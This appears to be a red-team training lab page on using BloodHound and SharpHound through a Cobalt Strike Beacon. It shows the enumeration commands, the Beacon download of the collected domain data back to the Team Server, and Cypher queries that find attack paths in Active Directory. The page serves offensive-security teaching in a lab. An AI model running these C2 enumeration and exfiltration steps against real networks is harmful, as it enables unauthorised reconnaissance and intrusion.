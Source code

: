 [BloodHound](https://github.com/BloodHoundAD/BloodHound) is an application that uses graph theory to display the relationships between different Active Directory components, specifically for the use case of finding attack paths. BloodHound requires the use of two additional components: a [neo4j](https://neo4j.com/) database and the [SharpHound](https://github.com/BloodHoundAD/SharpHound3) data collector.

To configure neo4j and BloodHound, go to your **attacker-windows** VM and open a **Command Prompt**. Change directory to `C:\Tools\neo4j\bin` and run `neo4j.bat console`.
```shell
C:\Users\Administrator>cd C:\Tools\neo4j\bin

C:\Tools\neo4j\bin>neo4j.bat console
2021-05-11 10:03:21.143+0000 INFO  Starting...
2021-05-11 10:03:28.065+0000 INFO  ======== Neo4j 4.2.3 ========
2021-05-11 10:03:32.143+0000 INFO  Performing postInitialization step for component 'security-users' with version 2 and status CURRENT
2021-05-11 10:03:32.143+0000 INFO  Updating the initial password in component 'security-users'
2021-05-11 10:03:33.128+0000 INFO  Bolt enabled on localhost:7687.
2021-05-11 10:03:36.096+0000 INFO  Remote interface available at http://localhost:7474/
2021-05-11 10:03:36.096+0000 INFO  Started.
```

Open a web browser and navigate to **http://localhost:7474/**. Enter **neo4j** for both the username and password, and click **Connect**. You'll be prompted to set a new password - pick something you'll remember and click **Change Password**. You may now close the browser.

Go to `C:\Tools\BloodHound`, launch `BloodHound.exe` and login with your new password.

![image](https://github.com/LeThanhkosogian/Learn-Cobalt-Strike/assets/97555997/0d27d64e-334d-4921-baa3-4a8212861b84)


The database will be empty, so it's time to run the data collection with SharpHound.

SharpHound has a number of different collection methods (all documented on the repository):

-   **Default** - Performs group membership collection, domain trust collection, local group collection, session collection, ACL collection, object property collection, and SPN target collection
-   **Group** - Performs group membership collection
-   **LocalAdmin** - Performs local admin collection
-   **RDP** - Performs Remote Desktop Users collection
-   **DCOM** - Performs Distributed COM Users collection
-   **PSRemote** - Performs Remote Management Users collection
-   **GPOLocalGroup** - Performs local admin collection using Group Policy Objects
-   **Session** - Performs session collection
-   **ComputerOnly** - Performs local admin, RDP, DCOM and session collection
-   **LoggedOn** - Performs privileged session collection (requires admin rights on target systems)
-   **Trusts** - Performs domain trust enumeration
-   **ACL** - Performs collection of ACLs
-   **Container** - Performs collection of Containers
-   **DcOnly** - Performs collection using LDAP only. Includes Group, Trusts, ACL, ObjectProps, Container, and GPOLocalGroup.
-   **ObjectProps** - Performs Object Properties collection for properties such as LastLogon or PwdLastSet
-   **All** - Performs all Collection Methods except GPOLocalGroup.

**OPSEC Alert**
>Running collection methods such as **LocalAdmin**, **RDP**, **DCOM**, **PSRemote** and **LoggedOn** will allow SharpHound to enumerate every single computer in the domain. Collecting this information is useful to BloodHound and without it you may see fewer paths, at the obvious expensive of being loud on the wire.

SharpHound will write a ZIP file in the current working directory of the Beacon, so ensure you move somewhere writeable first.
```shell
beacon> execute-assembly C:\Tools\SharpHound3\SharpHound3\bin\Debug\SharpHound.exe -c DcOnly

------------------------------------------------
Initializing SharpHound at 10:04 AM on 5/13/2021
------------------------------------------------

Resolved Collection Methods: Group, Trusts, ACL, ObjectProps, Container, GPOLocalGroup, DCOnly

[+] Creating Schema map for domain DEV.CYBERBOTIC.IO using path CN=Schema,CN=Configuration,DC=cyberbotic,DC=io
[+] Cache File not Found: 0 Objects in cache
[+] Pre-populating Domain Controller SIDS
Status: 0 objects finished (+0) -- Using 33 MB RAM
[+] Creating Schema map for domain CYBERBOTIC.IO using path CN=Schema,CN=Configuration,DC=cyberbotic,DC=io
Status: 81 objects finished (+81 81)/s -- Using 42 MB RAM
Enumeration finished in 00:00:01.2056637
Compressing data to .\20210513100410_BloodHound.zip
You can upload this file directly to the UI

SharpHound Enumeration Completed at 10:04 AM on 5/13/2021! Happy Graphing!
```

By default, SharpHound will target the current domain. To enumerate a foreign domain, use the `-d` option.
```shell
beacon> execute-assembly C:\Tools\SharpHound3\SharpHound3\bin\Debug\SharpHound.exe -c DcOnly -d cyberbotic.io

------------------------------------------------
Initializing SharpHound at 10:05 AM on 5/13/2021
------------------------------------------------

Resolved Collection Methods: Group, Trusts, ACL, ObjectProps, Container, GPOLocalGroup, DCOnly

[+] Creating Schema map for domain CYBERBOTIC.IO using path CN=Schema,CN=Configuration,DC=cyberbotic,DC=io
[+] Cache File Found! Loaded 140 Objects in cache
[+] Pre-populating Domain Controller SIDS
Status: 0 objects finished (+0) -- Using 36 MB RAM
[+] Creating Schema map for domain ZEROPOINTSECURITY.LOCAL using path CN=Schema,CN=Configuration,DC=cyberbotic,DC=io

Status: 110 objects finished (+110 3.666667)/s -- Using 40 MB RAM
Status: 111 objects finished (+1 1.261364)/s -- Using 44 MB RAM
Enumeration finished in 00:01:28.6689739
Compressing data to .\20210513100546_BloodHound.zip
You can upload this file directly to the UI

SharpHound Enumeration Completed at 10:07 AM on 5/13/2021! Happy Graphing!
```

To download these files, use the `download` command.
```shell
beacon> download 20210513100410_BloodHound.zip
[*] Tasked beacon to download 20210513100410_BloodHound.zip
[+] host called home, sent: 37 bytes
[*] started download of C:\Temp\20210513100410_BloodHound.zip (11757 bytes)
[*] download of 20210513100410_BloodHound.zip is complete

beacon> download 20210513100546_BloodHound.zip
[*] Tasked beacon to download 20210513100546_BloodHound.zip
[+] host called home, sent: 37 bytes
[*] started download of C:\Temp\20210513100546_BloodHound.zip (14368 bytes)
[*] download of 20210513100546_BloodHound.zip is complete
```

This will download the files to the Team Server. To save them onto your desktop go to **View > Downloads**, select the files, click **Sync Files** and choose somewhere to save them. It works this way so that every operator connected to the Team Server has access to the same files.

In BloodHound, click the **Upload Data** button in the menu on the right and select your ZIP files. Once the files have been extracted, click the **More Info** button in the top-left - the DB Stats and On-Prem Objects should now be populated.

There are multiple ways to search for data in BloodHound.

Since we have a Beacon running as **bfarmer**, a good first step could be to find if he has any local admin rights on machines in the domain. Use the search box in the top-left to find bfarmer. Scroll down the **Node Info** tab until you find the **Local Admin Rights** section. Click on **Group Delegated Local Admin Rights** and BloodHound should show a simple graph displaying the relationship between bfarmer and **SRV-1**.

It shows us that bfarmer is **MemberOf** the **Developers** domain group, which is **AdminTo** SRV-1.
![image](https://github.com/LeThanhkosogian/Learn-Cobalt-Strike/assets/97555997/2db979af-15fb-4b8d-ba26-8f06a6a8dcaf)


You can right-click on any edge and select **Help** to see more information about what that relationship means, how you might exploit it, any OPSEC considerations as well as additional references.
![image](https://github.com/LeThanhkosogian/Learn-Cobalt-Strike/assets/97555997/200fa598-effb-4a01-9d35-72379a76ef8e)


The path finder (the little road icon next to the search box) allows you to plot a path between two specific nodes. Specify a start and target node, and BloodHound will plot the shortest path (if it can find one). For example, searching for a path from **jking** to the **Oracle Admins** group should show that jking is a member of **1st Line Support** which has a **GenericAll** ACL to Oracle Admins.
![image](https://github.com/LeThanhkosogian/Learn-Cobalt-Strike/assets/97555997/5ef36dc1-a946-4d8f-b0c3-e0aae1265f16)


To find any path to a target node, find it using the search box, right-click the node and select **Shortest Paths to Here**.
![image](https://github.com/LeThanhkosogian/Learn-Cobalt-Strike/assets/97555997/95445742-c42a-4994-9c70-b2a6f82baa01)


Nodes (users/groups/computers) can also be "Marked as Owned" or "Marked as High Value". This provides a means of plotting paths using those tags, such as "Find Paths to Here from Owned" or "Find Paths to High Value Targets".

In the **Analysis** tab, you will find lots of built-in queries that can help you find interesting attack paths in the domain. BloodHound also allows you to execute raw cypher queries (at the bottom of the window). This is useful for finding nodes that have particular properties or to help find specific attack paths.

This query will show all users that have a **Service Principal Name** (SPN) set:
```shell
MATCH (u:User {hasspn:true}) RETURN u
```

And this query will display computers that are **AllowedToDelegate** to other computers:
```shell
MATCH (c:Computer), (t:Computer), p=((c)-[:AllowedToDelegate]->(t)) RETURN p
```

One of the pre-built queries in BloodHound is called **Shortest Paths from Kerberoastable Users**, which will attempt to plot a path to Domain Admin from any user with an SPN. However, in the lab, this will find no result. The real strength of custom cyber query (in my view) is to expand out those search parameters:
```shell
MATCH (u:User {hasspn:true}), (c:Computer), p=shortestPath((u)-[*1..]->(c)) RETURN p
```

This query will plot the shortest paths from any user with an SPN, to any computer - and will produce a path from **svc_mssql** to **SRV-1**.
![image](https://github.com/LeThanhkosogian/Learn-Cobalt-Strike/assets/97555997/8e2616f5-fb01-45e7-aef8-3d5263365df1)

(Don't worry if this specific paths make no sense - we'll be looking at them in more detail as we progress thrrough the course.)


>Get familiar with the BloodHound interface by finding different nodes and edges.

